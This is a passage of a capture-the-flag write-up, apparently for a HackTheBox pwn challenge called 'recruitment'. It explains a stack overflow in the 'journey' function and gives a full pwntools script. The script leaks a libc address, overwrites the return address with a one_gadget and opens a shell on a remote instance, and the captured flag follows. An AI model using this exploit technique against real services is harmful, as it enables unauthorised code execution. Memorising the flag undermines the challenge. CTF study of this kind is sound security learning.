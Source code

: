 But there is something special here. First, it set `flag = 3`, i was thinking about return to option 1 to create another profile because option 1 only checks if `flag == 1` or not, if it's not, it will let us create. But it skipped the create step even i tried how many times. Second, the flow code of `journey` is it set the value from `rbp-0x20` to `rbp-0x8` to 0, then return getline with size `0x2f`. I noticed that i can overflow the return address, because `v4` is in `rbp-0x20`. So now i can execute one gadget to get shell. 
Script: 
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./recruitment_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("94.237.50.242", 35024)

    return r


def main():
    r = conn()
    input()
    # good luck pwning :)
    r.sendlineafter(b'$ ', b'1')
    r.sendlineafter(b'Name:  ', b'A')
    r.sendlineafter(b'Class: ', b'A'*16)
    r.sendlineafter(b'Age:   ', b'A'* 24)
    r.recvuntil(b'Age:   AAAAAAAAAAAAAAAAAAAAAAAA\n')
    pause()
    leak = u64(r.recv(5) + b'\0\0\0')
    leak = leak << 8
    libc.address = leak - 0x93b00
    info('Libc leak: ' + hex(leak))
    info('Libc: ' + hex(libc.address))
    system = libc.sym['system']
    binsh = next(libc.search('/bin/sh'))
    info('System: ' + hex(system))
    one_gadget = libc.address + 0x583e3
    pause()
    r.sendlineafter(b'$ ', b'3')
    r.sendlineafter(b'mission: ', b'A'*0x28+ p64(one_gadget))
    pause()
    r.interactive()


if __name__ == "__main__":
    main()
# HTB{R34dy_0R_n0t_w3_4r3_c0m1ng_3db8647580a5f8902b7653c8b0e7063a}
```

![image](https://hackmd.io/_uploads/BkFmnVsVJg.png)
